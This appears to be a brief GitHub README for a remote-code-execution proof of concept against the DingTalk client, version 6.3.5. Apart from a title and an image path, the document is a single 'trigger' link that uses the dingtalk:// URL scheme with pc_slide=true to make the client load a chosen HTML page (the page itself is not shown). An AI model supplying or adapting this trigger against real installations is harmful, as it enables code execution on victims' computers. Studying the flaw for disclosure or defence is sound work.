 # dingtalk-RCE

版本：6.3.5
触发方式：

```
dingtalk://dingtalkclient/page/link?url=127.0.0.1/test.html&pc_slide=true
```

